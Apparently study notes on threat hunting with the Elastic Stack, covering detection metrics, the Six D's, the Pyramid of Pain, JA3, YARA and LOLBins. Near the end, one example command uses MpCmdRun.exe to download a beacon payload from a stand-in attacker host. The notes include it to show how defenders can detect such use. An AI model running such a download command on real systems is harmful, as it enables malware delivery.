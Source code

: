 ## Threat Hunting
Source: Threat Hunting with Elastic Stack
![](attachments/Pasted%20image%2020220922120826.png)

## Introduction to Threat Hunting
The problem with this early approach to infosec / secops was that it was very reactionary. Threat hunting is a discipline that takes years to masters:
- Understanding DNS
- TLS
- DLL
- Side loading
- How these work together.
- How are these things can be used, misused, or abused.

## Measuring success
- Mean time to detect (MTTD) - how long did it take the organization to detect the adversary?
- Mean time to respond - after detection, how long did it take the organization to respond?
- Rate of recidivism - how long after you evicted an adversary did they try again?

## Six D's
- Detect = how the defenders will detect the adversary.
- Deny = how defenders deny objective success to the adversary. For example deny access to system accounts necessary to move laterally.
- Disrupt = how defenders could disrupt an adversary objective. Including interrupt the flow of their attack.
- Degrade = how defenders could degrade an adversary's ability to fully accomplish their objective.
- Deceive = how defenders could deceive an adversary so that they can assume they have something of value that turns out to be worthless. For example to plant honey tokens throughout network. Creating domain-passwords.txt and if the adversary attempts to use them to escalate access you can detect it.
- Destroy = Not necessarily important, but to complete six D's :)

## Pyramid of Pain
This model is more of a roadmap for accomplishing the D's. This model highlights the difficulties that adversaries have when different elements of their campaign are discovered and shared. We can harass, frustate and stress the adversary by pressuring them.

![](attachments/Pasted%20image%2020220923171258.png)

### Hash values
Hash represent signature of a exploit or malware file which was being used by the adversary. When defenders learn the hash of files used by the adversary, they may use it to search and block the file before they could be used to any effect. 

However, this detection is trivial, that Malware-as-a-Service (MaaS) providers buld the changing of all their implants for every campaign, so that no two campaigns will ever have the same hash catalog.

### IP addresses
Some adversaries uses same infrastructure to launch their attack. However, still, changing the IP addresses used for campaign is easy for an adversary to do, including creation and hosting of infrastructure, or even The Onion Router (Tor).

### Domain names
Changing the domain names is not difficult, but it causes a few delays for the campaign if they are discovered. Domains have to either be stolen or registered, stealing domains takes time to identify targets, carry out a takeover, and then protect the takeover. Registering new domains requires money to change hands (digital currency, stolen funds, or personal) and it can also take hours to days for the domain to propagate across the internet.

If domain is detected during a campaign, loss of control for an implant can severely delay the campaign.

### Network/host artifacts
Generally, identifies things that are directly associated with how their implant functions. For example would be identifying User-Agent that is used for HTTP connections or the JA3/JA 3S-pair for TLS sessions. You can try to identify with TLS fingerprinting (https://engineering.salesforce.com/tls-fingerprinting-with-ja3-and-ja3s-247362855967) to detect abnormal TLS sessions.

### Tools
If the tools being used are detected can causes severe impact on the adversary. The adversary must find, or create a new tool that has the same capabilities but carries them out in a different way. 

YARA is a framework that performs pattern matching on files and can be used to create rules that can use identified tool patterns to ferret out other files used by the adversary.

### TTPs
Conduction identification through the behaviour of the adversary. Defenders may start by looking at TLS metadata, DNS, and then HTTP User-Agents. Attackers may start with a port scan, service enumeration, attempt to move over SMB to a file server.

Identifying an adversary TTP is catastrophic, if you know what they are going to do before they do it, and you're always waiting for them, you force themto completely change how they go about an intrusion.

## Profiling Data
Understanding and expecting how things are going in the environments. Example of JA3 client fingerprints, sorted by the host operating system, and the IP address of the TLS session:

![](attachments/Pasted%20image%2020220923175246.png)

Humans brain does abnormality identification using visuals. So you should consider represent data in graphs.

## Detection Types
### Signature-based detections
Traditional security operations, things like IDS/IPS and firewall are signature-based detections. These are table-stakes for security operations. They block a smaller and smaller percentage of threats because they rely on previously identified threats being analyzed and rules/signatures being created.

### Behaviour-based detection
This dtection are either a derivative of "known bad" or leverage known good binaries/trust/process to perform malicious operations. Example of behaviour-based detections:
- Authenticating from different locations at the same time
- Authentications occuring closely chronologically, but over a large geographic distance.
- Network connections originating from a program that doesn't require network (notepad, vim, textEdit).

One of the most powerful tools in behaviour-based detection is YARA. 

**LOLBins** are legitimate programs that are present on many systems. While these programs have authorized uses and purposes, they can be used to perform nefarious functions. The fact that they can be used legitimately makes it very difficult to detect when they are being abused. For example:
- `At.exe` can be used to schedule tasks, but also to maintain persistence
- `pip` can install Python packages, but it can also be used to upload and download files or even spawn interactive shells
- `Powershell.exe` is an automation and scripting framework, but it can also be used to load and build malware directly onto a compromised system.
Example: `-DownloadFile switch MpCmdRun.exe -DownloadFile -url https://attacker.server/beacon.exe -path c:\\temp\\beacon.exe`
![](attachments/Pasted%20image%2020220923181237.png)
Using Kibana, we can profile how MpCmdRun.exe is used in our environment to identify when there are deviations.

(page 36)
